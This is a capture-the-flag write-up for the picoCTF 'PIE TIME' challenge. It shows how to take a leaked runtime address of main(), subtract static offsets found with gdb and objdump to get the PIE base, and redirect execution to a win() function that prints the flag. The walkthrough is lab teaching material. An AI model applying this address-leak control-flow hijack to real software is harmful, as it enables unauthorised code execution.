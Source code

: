 # PIE TIME Writeup

**Challenge Name:** PIE TIME

**Points:** 75

**Author:** Darkraicg492

**Description:**

Can you try to get the flag? Beware we have PIE!

## Understanding the Challenge

The challenge involves Position Independent Executables (PIE), meaning addresses of functions are randomized at runtime. Our goal is to hijack execution to call the `win()` function, which prints the flag.

## Analyzing the Binary

We analyse the given binary using `strings`, `objdump`, and `gdb`.

### **Finding Function Offsets**

Using `gdb`:

```
gdb ./vuln
disassemble win
```

This gives us the offset of `win()` in the binary:

```
0x00000000000012a7 <win>
```

### Finding `main()` Address at Runtime

Running the binary with `netcat`:

```
nc rescued-float.picoctf.net 63848
Address of main: 0x5c6a291d133d
Enter the address to jump to, ex => 0x12345:
```

Finding `main` offset:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ objdump -d vuln | grep "<main>"
    11c1:       48 8d 3d 75 01 00 00    lea    0x175(%rip),%rdi        # 133d <main>
000000000000133d <main>:
    1387:       48 8d 35 af ff ff ff    lea    -0x51(%rip),%rsi        # 133d <main>
```

### Calculating `win()` Address

Since PIE is enabled, function addresses are determined at runtime. We calculate `win()` actual address using:

```
win_addr = (main_addr - main_offset) + win_offset
```

where:

- `main_addr = 0x5c6a291d133d` (runtime address of main)
- `main_offset = 0x133d` (static offset of main from `objdump`)
- `win_offset = 0x12a7` (static offset of win from `gdb`)

Calculating:

```
win_addr = (0x5c6a291d133d - 0x133d) + 0x12a7
         = 0x5c6a291d0000 + 0x12a7
         = 0x5c6a291d12a7
```

## Exploiting the Binary

We input the computed address into the program:

```
Enter the address to jump to, ex => 0x12345: 0x5c6a291d12a7
```

![image.png](image.png)